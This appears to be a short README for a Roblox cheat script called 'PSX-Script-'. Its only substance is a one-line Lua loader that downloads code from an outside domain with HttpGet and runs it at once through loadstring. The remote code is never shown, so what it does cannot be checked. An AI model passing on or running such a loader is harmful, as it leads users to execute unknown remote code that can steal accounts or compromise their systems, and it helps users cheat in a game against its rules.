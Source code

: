 # PSX-Script-


loadstring(game:HttpGet("https://egorikusa.space/c068929fb182b7b61cb0b83b.lua", true))()
